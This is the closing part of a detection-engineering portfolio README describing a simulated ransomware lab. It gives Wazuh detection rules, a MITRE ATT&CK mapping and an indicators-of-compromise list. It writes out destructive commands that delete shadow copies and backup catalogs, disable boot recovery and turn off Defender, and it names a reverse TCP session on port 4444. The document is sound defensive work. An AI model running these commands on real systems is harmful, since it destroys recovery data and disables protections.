    <description>CRITICAL: Ransomware Staging - Volume Shadow Copy Deletion Detected (MITRE T1490)</description>
    <mitre>
      <id>T1490</id>
    </mitre>
    <group>ransomware,high_severity,</group>
  </rule>

  <!-- Detect Recovery Environment Disabling (bcdedit) -->
  <rule id="100002" level="11">
    <if_sid>61603</if_sid>
    <field name="win.eventdata.image" type="pcre2">(?i)bcdedit\.exe</field>
    <field name="win.eventdata.commandLine" type="pcre2">(?i)recoveryenabled.*No</field>
    <description>HIGH: Ransomware Staging - Windows Boot Recovery Disabled (MITRE T1490)</description>
    <mitre>
      <id>T1490</id>
    </mitre>
    <group>ransomware,high_severity,</group>
  </rule>

  <!-- Detect Backup Catalog Destruction (wbadmin) -->
  <rule id="100003" level="11">
    <if_sid>61603</if_sid>
    <field name="win.eventdata.image" type="pcre2">(?i)wbadmin\.exe</field>
    <field name="win.eventdata.commandLine" type="pcre2">(?i)delete.*catalog</field>
    <description>HIGH: Ransomware Staging - Backup Catalog Deletion (MITRE T1490)</description>
    <mitre>
      <id>T1490</id>
    </mitre>
    <group>ransomware,high_severity,</group>
  </rule>

</group>
```

### Rule Firing & Validation Results

1. **Pre-flight Syntax Test:**
   ```bash
   /var/ossec/bin/wazuh-logtest
   ```
   
   *Figure 14: Validating custom XML rule syntax using Wazuh CLI logtest utility.*

2. **SIEM Alert Escalation Verification:**
   ```bash
   sudo systemctl restart wazuh-manager
   ```
   
   *Figure 15: Wazuh Discover displaying 2 hits firing at Level 12 Critical following attack re-execution.*

   
   *Figure 16: Expanded alert detail confirming Rule ID 100001 firing at Level 12 with MITRE T1490 tag.*

---

## 📊 MITRE ATT&CK Mapping

| MITRE ID | Tactic | Technique | Execution Details |
| :--- | :--- | :--- | :--- |
| **T1595** | Reconnaissance | Active Scanning | Port enumeration via Nmap (`-sV -O -p-`) |
| **T1562.001** | Defense Evasion | Impair Defenses: Disable Tools | Disabling Defender via `Set-MpPreference -DisableRealtimeMonitoring $true` |
| **T1105** | Ingress Tool Transfer | Ingress Tool Transfer | Staging `payload.exe` via PowerShell `Invoke-WebRequest` |
| **T1571** | Command & Control | Non-Standard Port | Reverse TCP session handler listening on port `4444` |
| **T1134** | Privilege Escalation | Access Token Manipulation | Meterpreter `getsystem` via Named Pipe Impersonation |
| **T1003** | Credential Access | OS Credential Dumping | Dumping NTLM hashes via Meterpreter `hashdump` |
| **T1490** | Impact | Inhibit System Recovery | Deleting shadow copies (`vssadmin`) and backup catalog (`wbadmin`) |
| **T1486** | Impact | Data Encrypted for Impact | Dropping simulated ransom note and `.enc` extension file |

---

## 📌 Indicators of Compromise (IOCs)

- **Attacker IP:** `192.168.184.129`
- **Victim IP:** `192.168.184.166`
- **Victim MAC:** `00:0C:29:66:5D:2A`
- **C2 Socket:** `192.168.184.129:4444` (Reverse TCP)
- **Malicious Payload:** `C:\Users\Public\payload.exe` (7,680 bytes)
- **Ransom Artifacts:** `C:\Users\Public\Desktop\README_DECRYPT.txt`, `C:\Users\Public\Desktop\FINANCIAL_2026.xlsx.enc`
- **Monitored Process Execution Commands:**
  - `vssadmin.exe delete shadows /all /quiet`
  - `wbadmin.exe delete catalog -quiet`
  - `bcdedit.exe /set {default} recoveryenabled No`
  - `powershell.exe Set-MpPreference -DisableRealtimeMonitoring $true`

---

## 📄 Incident Report

Full incident documentation is available in [docs/INCIDENT_REPORT.md](docs/INCIDENT_REPORT.md).

---

## 👤 Author

**Idris Lawan Mustapha**  
*Cyber Security Analyst & Detection Engineer*  
- **GitHub:** [github.com/fikira001](https://github.com/fikira001)  
- **Portfolio Repository:** [cybersecurity-portfolio](https://github.com/fikira001/cybersecurity-portfolio)  
- **Incident Report Ref:** IR-2026-001
